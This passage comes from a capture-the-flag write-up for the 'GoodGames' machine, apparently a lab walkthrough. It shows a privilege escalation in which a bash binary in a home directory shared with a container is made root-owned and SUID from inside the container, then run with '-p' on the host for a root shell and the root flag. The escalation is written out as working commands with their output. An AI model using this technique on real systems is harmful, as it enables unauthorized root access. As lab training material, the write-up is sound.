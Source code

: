 ### Shell

I'll copy `/bin/bash` into augustus' home directory on the host. It's
important to use `bash` from the host (I'll cover why in [Beyond
Root](#beyond-root)).



    augustus@GoodGames:~$ cp /bin/bash .



Then in the container, I'll change the owner to root, and set the
permissions to be SUID:



    root@3a453ab39d3d:/home/augustus# ls -l bash 
    -rwxr-xr-x 1 1000 1000 1234376 Feb 22 15:25 bash
    root@3a453ab39d3d:/home/augustus# chown root:root bash 
    root@3a453ab39d3d:/home/augustus# chmod 4777 bash 
    root@3a453ab39d3d:/home/augustus# ls -l bash
    -rwsrwxrwx 1 root root 1234376 Feb 22 15:25 bash



Back on GoodGames, the changes are reflected:



    augustus@GoodGames:~$ ls -l bash 
    -rwsrwxrwx 1 root root 1234376 Feb 22 15:25 bash



Running it (with `-p` so that privileges aren't dropped) returns a root
shell:



    augustus@GoodGames:~$ ./bash -p
    bash-5.1# 



And I can fetch the flag:



    bash-5.1# cat /root/root.txt
    820d1e82************************



## Beyond Root

The first time I tried to escalate here, I copied the `bash` binary from
in the container into augustus' home directory and made it SUID:



    root@3a453ab39d3d:/home/augustus# cp /bin/bash .
    root@3a453ab39d3d:/home/augustus# chmod 4777 bash 
    root@3a453ab39d3d:/home/augustus# ls -l bash 
    -rwsrwxrwx 1 root root 1099016 Feb 22 15:18 bash

